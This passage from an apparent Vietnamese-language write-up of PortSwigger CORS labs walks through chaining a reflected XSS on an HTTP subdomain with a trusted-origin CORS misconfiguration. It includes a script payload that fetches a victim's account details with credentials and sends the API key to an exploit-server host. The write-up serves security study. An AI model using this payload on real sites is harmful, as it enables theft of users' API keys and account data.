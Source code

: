 >>**"Deliver explit to victim"** và xem lại Log, ta có thể thấy payload đã hoạt động và chuyển api key của victim về server ta controll: ![image](https://hackmd.io/_uploads/HJA-m018R.png)

>Submit key và hoàn thành bài lab: ![image](https://hackmd.io/_uploads/rkSX70kLC.png)

# **3. CORS vulnerability with trusted insecure protocols**
>Trang web này có cấu hình CORS không an toàn ở chỗ nó tin cậy tất cả các tên miền phụ bất kể giao thức.
Để giải quyết bài thí nghiệm, hãy tạo một số JavaScript sử dụng CORS để truy xuất khóa API của quản trị viên và tải mã lên máy chủ khai thác của bạn. Lab sẽ được giải quyết khi bạn gửi thành công khóa API của quản trị viên.
Bạn có thể đăng nhập vào tài khoản của mình bằng thông tin đăng nhập sau: `wiener:peter`
![image](https://hackmd.io/_uploads/Sy_XDAk8C.png)

>Bài này nâng cấp hơn 2 bài trên khi nó chỉ trust tất cả subdomain. Như vậy mình cần tấn công CORS sao cho nạn nhân sẽ request đến target từ subdomain chứ không phải từ exploit-server.

>Đăng nhập vào `wiener`, trong `/my-account` cũng hiện API Key của người dùng lên màn hình như trong lab trước: ![image](https://hackmd.io/_uploads/H1qzYAyUC.png)

>API Key được hiển thị từ 1 hàm JS, mà hàm JS truy cập vào `/accountDetails` để fetch api:
>![image](https://hackmd.io/_uploads/Bkb4KCyIA.png)

>Tồn tại thêm 1 request `GET /accountDetails` sẽ dựa vào session tương ứng để lấy dữ liệu người dùng từ server: ![image](https://hackmd.io/_uploads/H1lStAyIC.png)

>Thấy trong respone có chứa `Access-Control-Allow-Credentials: true` nên đoán ra được rằng server hỗ trợ CORS! 
>Thử thêm 1 header Origin chứa domain bất kì vào trong request để xem server xử lí nó ra sao, thì thấy lần này server đã không tin tưởng Origin bất kì từ request: ![image](https://hackmd.io/_uploads/rJOvt0k8A.png)

>Một điểm chú ý là khi xem post sản phẩm bất kì thì xuất hiện chức năng **Check stock**, khi click sẽ thực hiện request đến 1 subdomain `http://stock.<LAB-DOMAIN>/?productId=X&storeId=Y` để trả về số sản phẩm còn trong kho: ![image](https://hackmd.io/_uploads/H1InFCkUC.png)
![image](https://hackmd.io/_uploads/Hkx-qAk8R.png)

>Thử thêm `Origin: http://stock.<LAB-DOMAIN>/` thì thấy response trả về `Allow-Control-Allow-Origin: http://stock.<LAB-DOMAIN>/` → server trust subdomain kể cả http và https. (Mặc dù server sử dụng https): ![image](https://hackmd.io/_uploads/r1dD50kUC.png)

>Bây giờ ta sẽ đi tìm cách tấn công làm sao để nạn nhân sẽ request đến `/accountDetails` từ subdomain `http://stock.<LAB-DOMAIN>` chứ không phải từ `exploit-server`.

>Thử query subdomain trên với productId sai thì thấy response trả lỗi chứa productId trên. Có vẻ như trang này sẽ bị dính reflected XSS: ![image](https://hackmd.io/_uploads/B1fmoRk8R.png)

>Thử payload `<script>alert(1)</script>` tại trường productId, ta thấy ta đã XSS thành công: ![image](https://hackmd.io/_uploads/BkFuj0JLC.png)

>Như vậy, bây giờ chỉ cần truyền payload cors attack sau khi URL-encoded vào trường productId và khiến nạn nhân truy cập vào đường dẫn này thì nó sẽ thực thi payload từ subdomain nhờ XSS và request đến /accountDetails. Payload cors attack giống với lab 1:
```
<script>
    fetch('//<LAB-ID>.web-security-academy.net/accountDetails', {
        credentials:'include'
    })
    .then(r => r.json())
    .then(j => fetch('//exploit-<EXPLOIT-ID>.exploit-server.net/?apiKey=' + j.apikey))
</script>
```
